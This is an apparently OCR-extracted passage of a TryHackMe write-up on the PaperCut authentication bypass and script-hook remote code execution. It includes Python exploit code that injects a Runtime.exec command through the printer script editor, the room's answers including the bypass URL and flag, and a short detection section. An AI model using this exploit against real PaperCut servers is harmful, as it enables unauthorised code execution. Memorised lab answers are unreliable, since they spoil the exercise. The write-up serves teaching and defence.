 ```python
data = { 'service': 'direct/1/PrinterDetails/$PrinterDetailsScript.$Form', 'sp': 'S0', 'Form0': 'printerId,enablePrintScript,scriptBody,$Submit,$Submit$0,$Submit$1', 'printerId': 'l1001', 'enablePrintScript': 'on', 'scriptBody': "function printJobHook(inputs, actions) {}\r\n" \ f"java.lang.Runtime.getRuntime().exec('{command}');", '$Submit$1': 'Apply', } r = session.post(f'{base_url}/app', data=data, headers=headers, verify=False)
```

**Verifying Exploitation**

The last step is verifying that the exploitation worked as expected. This is done by determining if the message **"Saved successfully"** is seen in the response:

```python
if r.status_code == 200 and 'Saved successfully' in r.text: print('[+] Executed successfully!') else: print('[-] Might not have a printer configured. Exploit manually by adding one.')
```



```
If the vulnerable host has a hostname of PRINT.TRYHACKME.LOC, what would be the URL that you could use to perform the authentication bypass?

http://print.tryhackme.loc:9191/app?service=page/SetupCompleted

What would be the one-liner added to the Script Manager to execute calc.exe?


What is the value of the flag stored in the Administrator's Desktop folder?

cd c:\Users\Administrator\Desktop
dir
flag.txt
more flag.txt

THM{PaperCuts.Can.Hurt.Even.Computers}


What text is the automated exploit searching for to tell it that the exploitation was successful?


```


## detection & mitigation 

Detection

Before diving into the detection and mitigations published online, let's investigate what application logging information we have that will provide us with information about the attack. Once you have completed the full exploit path, navigate to the **Logs** feature on the PaperCut application and select the **Application Log**. You will see the following:

```
Logs > Application Log
```
As you can see from the image, the attack is relatively noisy, just in the application logs alone. From these logs alone, we can see the IP from which the authentication as the admin user occurred, and the modification of the print script. Along with this, there are several key areas that defenders should focus their detection efforts on:
- Network traffic signatures
- System monitoring
- Server settings and log files
